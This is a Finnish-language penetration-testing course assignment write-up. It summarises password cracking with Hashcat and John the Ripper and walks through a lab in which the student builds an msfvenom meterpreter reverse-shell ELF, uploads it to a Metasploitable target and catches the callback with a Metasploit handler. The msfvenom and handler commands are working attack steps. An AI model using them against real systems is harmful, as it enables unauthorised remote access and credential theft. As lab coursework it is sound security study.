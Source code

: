 # h4 Marraskuu2024!

## x) Lue/katso ja tiivistä.

### Karvinen 2022: Cracking Passwords with Hashcat

- Hashid: voidaan yrittää määritellä minkä tyyppinen hash kyseessä. **-m** parametri kertoo lisäksi numeron, jota käytetään salasanan murtamisessa.
-  Hashcat: Varsinanen työkalu, jolle annetaan edellisen kohdan **-m nro**, tutkittava hash, sanakirja jota käytetään (**-o solved** tuloksen tallentamiseen).
-  Status voi olla **Cracked** eli onnistunut tai **Exhausted** eli sanalista käytiin loppuun ilman osumia.

### Karvinen 2023: Crack File Password With John

- Sanakirjahyökkäystyökalu
- Voidaan käyttää useiden eri formaattien salasanojen murtamiseen.

## Santos et al 2017: Security Penetration Testing, The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials 

- Käyttäjätunnukset tallennetaan tietokantaan tai tekstitiedostoon
- Salasanoja täytyy suojata tallennuksen  että siirron ajan.
- Oletussalasanat eri laitteissa ja ihmisillä
- Hotspot sniffing
- Brute force työkalut: Medusa, THC-Hydra, Brutus. Metasploit, Dirbuster, wfuzz
- Kaksi samaa salasanaa Windowsissa näyttää saman hashin, Linuxissa salasanaan lisätään satunnainen merkkijono (salt) ennen sen hashausta
- Salasanavuodot, rainbow table
- Hash ei yksinään riitä, käytä saltia hashissa, pitkät salasana, sertifikaattiperusteinen tunnistautuminen, monivaiheinen tunnistautuminen

## Polop et al 2024: HackTricks. MSFVenom - CheatSheet 

msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

## a) Asenna Hashcat ja testaa sen toiminta murtamalla esimerkkisalasana.

Olin asentanyt Hashcatin jo Information Security kurssin tehtävässä 6a.

https://github.com/anha2/Information-Security/blob/main/h6.md

## c) Asenna John the Ripper ja testaa sen toiminta murtamalla jonkin esimerkkitiedoston salasana.

Olin asentanyt John the Ripperin jo Information Security kurssin tehtävässä 6m. Samassa dokumentissa myös zip murtaminen kohdassa 6n.

https://github.com/anha2/Information-Security/blob/main/h6.md

## d) Fuffme. Asenna Ffufme harjoitusmaali paikallisesti omalle koneellesi. Ratkaise tehtävät (kaikki paitsi ei "Content Discovery - Pipes")

Tein tämän jo edellisen viikon vapaaehtoisessa harjoituksessa kohdassa f.

https://github.com/anha2/Tunkeutumistestaus/blob/main/h3.md

## e) Tiedosto. Tee itse tai etsi verkosta jokin salakirjoitettu tiedosto, jonka saat auki. Murra sen salaus. 

Olin aiemmin kokeillut pdf salasanojen murtamisen kohdassa 6o.

https://github.com/anha2/Information-Security/blob/main/h6.md


## f) Tiiviste. 

Tein Kalilla uuden käyttäjän ja sille salasanan. Vilkaisin salasanaa ja vein sen hashes.txt tiedostoon.

![11](https://github.com/user-attachments/assets/555e1ab5-3ce5-4ea5-8cb5-65006b406982)

Muokkasin sen jälkeen tiedostosta pois testuser: -osion.

Tämän jälkeen koitin ajaa johnilla mutta se ei onnistunut.

![13](https://github.com/user-attachments/assets/b78fe388-7930-4bdd-8196-ef1066d89034)

Ihmettelin tätä hetkisen ja ChatGPT kertoi tämän olevan yescrypt-algoritmi jota ei välttämättä ole tuettu. Päätin katsoa millaisen hashin Metasploitable tekee. Sieltä tuli MD5 hash. Tässä kohtaa huomasin, että minulla oli jäänyt loppuun : jälkeen vielä tavaraa jonka vuoksi john ei alunperin toiminut.

Alla ensin MD5 hash ratkaistuna joka tuli Metasploitablesta sekä sen alla Kalin hash ratkaistuna.

![10](https://github.com/user-attachments/assets/9c0d83cf-1c9f-4169-81ea-24b9ca6128ab)

![14](https://github.com/user-attachments/assets/3fa36f18-b5dd-4515-9415-aff95eca3ad4)

## g) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). 

Käytin [101.labsin](https://www.101labs.net/comptia-security/lab-75-establishing-a-reverse-shell-on-a-linux-target-using-msfvenom-and-metasploit/) ohjetta tämän tekemiseen:

Aloitin luomalla payloadin Kalilla:

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.250.6 LPORT=5555 -f elf -o reverse-sh.elf

Tässä 192.168.250.6 ja portti 5555 kertovat hyökkäävän koneen ip:n ja portin.

![1](https://github.com/user-attachments/assets/191be1ae-efe7-482c-a8fb-458e7ccb4cfd)

Seuraavaksi katsottin filella tiedoston muoto ja mahdolliset metatiedot.

![2](https://github.com/user-attachments/assets/97341f74-1469-45c6-baa7-e8acb0ee4d0f)

ELF (Executable and Linkable Format) on yleinen suoritettavien tiedostojen muoto Linux-järjestelmissä.

Tämän jälkeen viedään payload tiedosto kohdekoneelle. Testasin tämän ftp:llä ja src:llä. Molemmissa oletettiin, että tunnus ja salasana oli saatu selville. Src:ssä lisäksi piti valita vanhanmallinen kirjautuminen ssh-rsa-avaimella.

![3](https://github.com/user-attachments/assets/905b9287-2791-4f5d-9099-471bbcd8b776)

![4](https://github.com/user-attachments/assets/587e9272-caa1-4f23-89f1-98739b320b19)

Tämän jälkeen otettiin ssh-yhteys kohteeseen. Tässäkin piti käyttää vanhanmallista avainta.

![5](https://github.com/user-attachments/assets/24306762-cdf3-4579-9192-4adff6b376dd)

Yhteyden muodostamisen jälkeen muutettiin aiemmin tuodun tiedoston ajo-oikeudet sekä ajettiin se. Jätetään ssh auki ja siirytään toiseen terminaaliin käyttämään msfconsolea.

![6](https://github.com/user-attachments/assets/c169dd37-57ee-48d0-b499-64eb905ce3b3)

Haluamme käyttää kuuntelijaa, joten annamme komennon sekä lisämäärittelyt

    use exploit/multi/handler
    set lhost 192.168.250.6
    set lport 5555
    set payload linux/x86/meterpreter/reverse_tcp

Tämän jälkeen palataan toiseen terminaaliin ja ssh:n kautta käynnistetään sinne uitettu ohjelma.

![7](https://github.com/user-attachments/assets/02273371-44ed-4038-9889-deeaa083aacb)

Toisessa terminaalissa päivittyi ruutu ja meterpreter tuli näkyviin.

![8](https://github.com/user-attachments/assets/44cceebb-686b-42dd-9233-0e3496fac6a9)


## h) Vapaaehtoinen: Asenna Windows-virtuaalikone ja tee msfvenomilla ohjelma siihen. 

## Lähteet:

101 labs. Luettavissa: https://www.101labs.net/comptia-security/lab-75-establishing-a-reverse-shell-on-a-linux-target-using-msfvenom-and-metasploit/. Luettu: 20.11.2024.

Karvinen. 2022. Cracking Passwords with Hashcat. Luettavissa: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/. Luettu: 16.11.2024.

Karvinen. 2023. Crack File Password With John. Luettavissa: https://terokarvinen.com/2023/crack-file-password-with-john/. Luettu: 16.11.2024.

Polop et al. 2024. HackTricks. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom. Luettu: 20.11.2024.

Santos et al. 2017. Security Penetration Testing. Katsottavissa: https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/. Katsottu: 20.11.2024.
